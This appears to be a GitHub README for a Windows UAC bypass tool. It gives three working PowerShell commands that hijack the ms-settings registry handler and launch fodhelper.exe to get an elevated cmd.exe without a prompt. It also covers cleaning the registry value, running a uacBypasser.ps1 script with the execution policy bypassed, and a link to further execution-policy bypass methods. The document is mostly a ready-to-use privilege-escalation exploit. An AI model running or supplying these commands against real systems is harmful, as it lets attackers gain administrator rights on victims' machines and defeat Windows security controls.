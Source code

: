 # Bypass Windows UAC Technique

## Bypass UAC with 3 Commands
```
#spawn cmd.exe process 
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "cmd.exe" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

#start fodhelper.exe to execute command in the registry
Start-Process "C:\Windows\System32\fodhelper.exe"
```
### Cleanup the registry value 
```
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

![alt text](poc/poc.gif)

## PoC of uacBypasser.ps1

![alt text](poc/pocScript.png)

Usage: 
```
1) input the commands to execute in the batch script
2) powershell.exe -executionpolicy bypass -file .\uacBypasser.ps1 <batch script location>
```
### Tips to bypass ExecutionPolicy in powershell can refer to the link below

```
https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
```